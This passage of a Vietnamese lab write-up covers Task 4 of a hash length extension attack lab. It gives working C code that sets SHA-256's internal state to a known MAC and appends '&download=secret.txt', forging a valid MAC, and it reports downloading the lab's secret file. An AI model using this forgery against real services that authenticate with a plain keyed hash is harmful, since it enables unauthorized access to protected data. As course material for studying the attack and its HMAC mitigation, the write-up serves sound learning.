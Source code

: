 ## Task 4: The Length Extension Attack

Từ lần trước chúng ta rút ra được rằng ta có thể thêm 1 phần mess phía sau vào. Đó chính là cách khai thác hash length extension và bây giờ ta sẽ khai thác nó trong task này.
Thay vì thêm Extra message thì mình sẽ thay bằng chuổi độc hại mà chúng ta muốn tấn công như là : *&download=secret.txt* 
Làm tương tự task3 và chúng ta có kết quả
```
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>
int main(int argc, const char *argv[])
{
	int i;
	unsigned char buffer[SHA256_DIGEST_LENGTH];
	SHA256_CTX c;
	SHA256_Init(&c);
	for(i=0; i<64; i++)
	SHA256_Update(&c, "*", 1);
	// MAC of the original message M (padded)
	c.h[0] = htole32(0xb6aa584f);
	c.h[1] = htole32(0x22407ff8);
	c.h[2] = htole32(0x08369506);
	c.h[3] = htole32(0x9626be38);
	c.h[4] = htole32(0x4c5c3297);
	c.h[5] = htole32(0x4a1c180c);
	c.h[6] = htole32(0x3d33d4a1);
	c.h[7] = htole32(0xa666d4cc);
	// Append additional message
	SHA256_Update(&c, "&download=secret.txt", 20);
	SHA256_Final(buffer, &c);
	for(i = 0; i < 32; i++) 
	{
		printf("%02x", buffer[i]);
	}
	printf("\n");
	return 0;
}

//b6aa584f22407ff8083695069626be384c5c32974a1c180c3d33d4a1a666d4cc
//gcc length_ext.c -o length_ext -lcrypto

```
![image](https://github.com/datnlq/Source/blob/main/Hash%20Length%20Extention%20Attack%20Lab/image/web_mac_task3.jpg?raw=true)
Và kết quả đã thành công, chúng ta đã tải được file secret.txt về.


## Task 5: Attack Mitigation using HMAC
